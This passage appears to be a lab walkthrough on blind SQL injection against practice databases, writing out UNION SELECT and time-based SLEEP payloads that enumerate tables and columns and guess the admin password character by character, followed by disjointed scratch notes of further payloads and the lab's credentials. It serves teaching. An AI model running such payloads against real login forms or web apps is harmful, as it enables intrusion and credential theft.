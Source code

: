   
You'll finally end up discovering a table in the sqli_three database named users, which you can be confirmed by running the following username payload:  
  
  
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--`  
  
  
Lastly, we now need to enumerate the column names in the **users** table so we can properly search it for login credentials. Again using the information_schema database and the information we've already gained, we can start querying it for column names. Using the payload below, we search the **columns** table where the database is equal to sqli_three, the table name is users, and the column name begins with the letter a.  
  
  
`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`  
  
  
Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named **id**, you'll append that to your original payload (as seen below).  
  
  
`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`  
  
  
Repeating this process three times will enable you to discover the columns id, username and password. Which now you can use to query the **users** table for login credentials. First, you'll need to discover a valid username which you can use the payload below:  
  
  
`admin123' UNION SELECT 1,2,3 from users where username like 'a%`  
  
  
Which, once you've cycled through all the characters, you will confirm the existence of the username **admin**. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:  
  
  
`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`  
  
  
Cycling through all the characters, you'll discover the password is 3845.  
  
  
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='a_alyti_s' and COLUMN_NAME like '0%';  
  
FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';  
  
[https://website.thm/analytics?referrer=admin123'](https://website.thm/analytics?referrer=admin123') UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a_alyti_s%'  
 
```
pa$$word  
' OR 1=1;--  
admin / 3845  
  
admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--  
 
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='analytics_referrer' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id' and COLUMN_NAME !='domain';
```